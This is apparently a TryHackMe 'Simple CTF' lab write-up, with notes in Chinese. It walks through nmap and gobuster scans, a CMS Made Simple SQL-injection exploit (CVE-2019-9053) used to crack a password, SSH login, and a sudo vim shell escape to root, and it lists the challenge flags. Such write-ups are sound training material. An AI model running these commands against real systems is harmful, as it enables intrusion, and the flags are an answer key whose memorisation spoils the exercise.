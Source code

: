 # Simple CTF

###### tags: `Tryhackme` `Hacking`
---
**1. How many services are running under port 1000?**
    ~ 2
    
    * Command: sudo nmap -sV -sS -T4 -p- -vv 10.10.239.141 -oN portscan.txt
![](https://i.imgur.com/DBzvkEV.png)

2. What is running on the higher port?
    ~ ssh
    
**3. What's the CVE you're using against the application?**
    ~ CVE-2019-9053
    
    * 利用gobuster掃描所有可能的xpath，然後到simple那頁會看到公司名稱和版本號，利用這個資訊在Google查找，可以找到答案
    * Command: gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://10.10.215.51 -t 20 -o gobusterscan.txt
![](https://i.imgur.com/HaB3ZMz.png)
    
**4. To what kind of vulnerability is the application vulnerable?**
    ~ sqli
    * 這是一個SQL injection漏洞
    
**5. What's the password?**
    ~ secret
    * 利用exploitDB提供的python進行暴力破解
    * Command: 
        searchsploit CMS Made simple 2.2.10
        searchsploit -p 46635
        sudo python 46635.py -u http://10.10.239.141/simple --crack -w /usr/share/wordlists/rockyou.txt
![](https://i.imgur.com/dk4aKF2.png)


**6. Where can you login with the details obtained?**
    ~ ssh
    
**7. What's the user flag?**
    ~ G00d j0b, keep up!
    
**8. Is there any other user in the home directory? What's its name?**
    ~ sunbath
    
**9. What can you leverage to spawn a privileged shell?**
    ~ vim
    * 利用sudo vim -c 執行 '':!/bin/sh' 得到root權限(前提是當前使用者在sudoer裡面)
![](https://i.imgur.com/CqzBPpu.png)
    
**10. What's the root flag?**
    ~ W3ll d0n3. You made it!